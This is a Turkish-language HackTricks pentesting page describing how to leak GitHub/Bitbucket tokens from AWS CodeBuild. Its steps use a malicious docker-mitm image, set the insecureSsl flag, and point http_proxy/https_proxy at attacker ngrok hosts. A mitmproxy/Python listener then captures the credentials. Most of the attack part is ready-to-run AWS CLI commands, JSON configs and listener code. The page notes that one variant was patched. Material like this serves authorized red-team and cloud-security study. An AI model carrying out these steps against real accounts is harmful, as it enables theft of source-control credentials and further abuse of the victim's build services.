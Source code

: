 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Github/Bitbucket Yapılandırılmış Token'larını Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Görüntüsü Üzerinden

Eğer örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını bulursanız, Codebuild'i projeyi oluşturmak için **belirli bir docker görüntüsü** kullanmaya zorlayarak bu **erişimi** (**GH token veya OAuth token**) **sızdırabilirsiniz**.

Bu amaçla **yeni bir Codebuild projesi oluşturabilir** veya mevcut birinin **ortamını** değiştirerek **Docker görüntüsünü** ayarlayabilirsiniz.

Kullanabileceğiniz Docker görüntüsü [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **env değişkenlerini `https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ayarlayacak çok temel bir Docker görüntüsüdür. Bu, **`https_proxy`** ve **`http_proxy`**'da belirtilen ana bilgisayarın trafiğinin çoğunu kesmenizi ve **`SSL_CERT_FILE`**'da belirtilen SSL CERT'ine güvenmenizi sağlar.

1. **Kendi Docker MitM görüntünüzü oluşturun ve yükleyin**
- Proxy IP adresinizi ayarlamak ve SSL sertifikanızı belirlemek için repo talimatlarını izleyin ve **docker görüntüsünü oluşturun**.
- **`http_proxy`**'yu ayarlamayın, böylece metadata uç noktasına yapılan istekleri kesmeyin.
- Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`.
- Docker görüntünüzü oluşturduktan sonra, **bunu halka açık bir repoya yükleyin** (Dockerhub, ECR...).
2. **Ortamı ayarlayın**
- **Yeni bir Codebuild projesi oluşturun** veya mevcut birinin ortamını **değiştirin**.
- Projeyi **önceden oluşturulmuş Docker görüntüsünü** kullanacak şekilde ayarlayın.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızdaki MitM proxy'yi ayarlayın**

- **Github repo**'sunda belirtildiği gibi, şunu kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bunun çalışmayabileceği bildirildi.

4. **Build'i çalıştırın ve kimlik bilgilerini yakalayın**

- **Authorization** başlığında token'ı görebilirsiniz:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli üzerinden de şöyle yapılabilir:
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** projelerinin, yalnızca API üzerinden değiştirilebilen, webde gizli bir ayarı olan **`insecureSsl`** vardır.\
Bunu etkinleştirmek, Codebuild'in platform tarafından sunulan **sertifikayı kontrol etmeden** depoya bağlanmasına olanak tanır.

- Öncelikle mevcut yapılandırmayı şu şekilde listelemeniz gerekir:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Ardından, toplanan bilgilerle proje ayarını **`insecureSsl`** değerini **`True`** olarak güncelleyebilirsiniz. Aşağıda bir projeyi güncellememe dair bir örnek var, sonunda **`insecureSsl=True`** olduğunu fark edin (bu, toplanan yapılandırmadan değiştirmeniz gereken tek şeydir).
- Ayrıca, tcp ngrok'unuza işaret eden **http_proxy** ve **https_proxy** ortam değişkenlerini de ekleyin:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Ardından, proxy değişkenleri (http_proxy ve https_proxy) tarafından belirtilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresindeki temel örneği çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin olarak** (base64) mitm portuna **gönderilecektir**:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTP protokolü aracılığıyla~~

> [!TIP] > **Bu güvenlik açığı, AWS tarafından 2023 Şubat ayının 20'si haftasında bir noktada (sanırım Cuma günü) düzeltildi. Bu nedenle bir saldırgan bunu artık kötüye kullanamaz :)**

**Yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını sızdırabilir** veya izinler OAuth aracılığıyla yapılandırılmışsa, **kodu erişmek için kullanılan geçici OAuth token'ını** sızdırabilir.

- Bir saldırgan, kendi makinesine işaret eden **http_proxy** ve **https_proxy** ortam değişkenlerini CodeBuild projesine ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Ardından, github reposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: `http://github.com/carlospolop-forks/TestActions`
- Son olarak, proxy değişkenleri (http_proxy ve https_proxy) tarafından işaret edilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresinden temel örneği çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Sonra, **Projeyi oluştur** seçeneğine tıklayın veya komut satırından oluşturmayı başlatın:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Sonunda, **kimlik bilgileri** **açık metin** (base64) olarak mitm portuna **gönderilecektir**:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Artık bir saldırgan, makinesinden token'ı kullanarak, sahip olduğu tüm ayrıcalıkları listeleyebilir ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay bir şekilde (kötüye) kullanabilir.

{{#include ../../../../banners/hacktricks-training.md}}
